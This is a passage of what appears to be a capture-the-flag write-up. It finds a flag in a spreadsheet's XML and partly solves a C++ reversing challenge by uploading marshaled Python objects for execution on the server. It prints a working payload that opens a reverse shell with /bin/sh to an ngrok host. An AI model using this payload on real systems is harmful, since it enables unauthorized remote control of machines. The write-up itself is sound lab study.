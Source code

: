 ```sh

❯ grep -Ri "HTB" .
./xl/sharedStrings.xml:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="23" uniqueCount="23"><si><t>CASH RECEIPT</t></si><si><t>DATE</t></si><si><t>RECEIPT NO.</t></si><si><t>FROM</t></si><si><t>TO</t></si><si><t>DESCRIPTION</t></si><si><t>TOTAL</t></si><si><t>SUBTOTAL</t></si><si><t>DISCOUNT</t></si><si><t>SUBTOTAL LESS DISCOUNT</t></si><si><t>TAX RATE</t></si><si><t>TOTAL TAX</t></si><si><t>Balance Due</t></si><si><t>Payment received as:</t></si><si><t>Cash</t></si><si><t>HTB{b1g_br41ns_b1gg3r_p0ck3ts_sm4ll3r_p4y0uts}</t></si><si><t>UNDISCLOSED</t></si><si><t>123 Down str.</t></si><si><t>Los Angeles</t></si><si><t>you@dontcare.sorry</t></si><si><t>The greatest asset we got.</t></si><si><t>agent@state.com</t></si><si><t>ENIGMA</t></si></sst>
```

### \[Reversing\] Breakin (unsolved) - (20 Solves)

This was a C++ reversing challenge which is a bit intimidating but the actual non-library code was pretty tiny and had debug symbols so it could be quickly reversed. Once you reverse `getSecret`, you find the secret admin page and the password query needed (Breakin's flag) to get to the secret admin page, where you can upload marshaled Python objects that would execute on the server (gleaned from `getExec`). Figuring out how the marshaled object should look like was a pain and it kept crashing and returning `<NULL>`. The first step is to pull all the libraries to run it locally to iterate faster, because one invalid input crashes the container **forever**. It was until I found [this article](https://awasu.com/weblog/embedding-python/calling-python-code-from-your-program/) detailing the steps to constructing it before I could construct a valid marshaled object for the service's consumption.

I managed to get as far as the reverse shell before the competition ended, but unfortunately the reverse shell kept dying (likely due to a timeout). I reproduce the script I have so far. *Edit: it was not because of a timeout, the container just kept randomly dying without any warning.*

```python
code = b'''
def main():
    import os
    os.system("python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"0.tcp.ap.ngrok.io\\",17610));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\\"/bin/sh\\")'")
    return "asd"
'''

import marshal
f = open("payload.pyc", "wb")
data = compile(code, 'payload.py', 'exec')
marshal.dump(data, f)
f.close()
```

I will be updating this with the proper solve script since I was rather close (I just needed to dump out the memory after getting shell).

**Update:** With the reverse shell, we simply have to dump the memory and analyze it to parse out the regions which are close to the python marshaled `key` object. We can do so with the following lines of shell
